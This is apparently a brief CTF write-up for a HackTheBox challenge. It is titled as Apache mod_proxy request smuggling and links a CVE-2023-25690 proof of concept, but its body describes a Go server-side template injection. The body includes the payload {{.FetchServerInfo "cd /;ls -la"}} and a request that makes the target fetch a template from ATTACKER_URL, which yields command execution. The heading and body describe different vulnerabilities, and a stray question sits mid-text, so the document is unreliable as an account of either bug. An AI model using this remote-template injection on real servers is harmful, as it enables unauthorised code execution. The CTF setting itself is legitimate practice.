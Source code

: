 # HTML Request Smuggling > Apache Mod_Proxy 

## Website 

<img src= "apacheblaze_website.PNG">

## Description

So, the functionality of the application seems to load and render templates either locally or remotely, depending on the ?use_remote={true/false} parameter. This lead me to want to check for SSTI vulnerability. After reviewing the source code provided by HackTheBox, we know it is using the Go templating language. I was able to set up a test.go template on my server with the contents {{.FetchServerInfo "cd /;ls -la"}}. Once the server loaded and executed my template code, I recieved the contents of the / directory, revealing code execution Just for context this is a CTF. What type of vulnerabilities were displayed here?.

## Set Up

1. Burpsuite Repeater/collaborator(Testing): GET requests to /render?use_remote=true&page=https://ATTACKER_URL/test.go.

## Exploit
<img src= "exploited_html_)smuggling.PNG">

## More Information

[CVE-2023-25690-POC](https://github.com/dhmosfunk/CVE-2023-25690-POC/tree/main#internal-http-request-smuggling-via-header-injection)
<summary> The impact of this vulnerability is that it allows attackers to target and access internal applications that are meant to be hidden by the reverse proxy, potentially leading to unauthorized access, data leakage, or further exploitation.</summary>
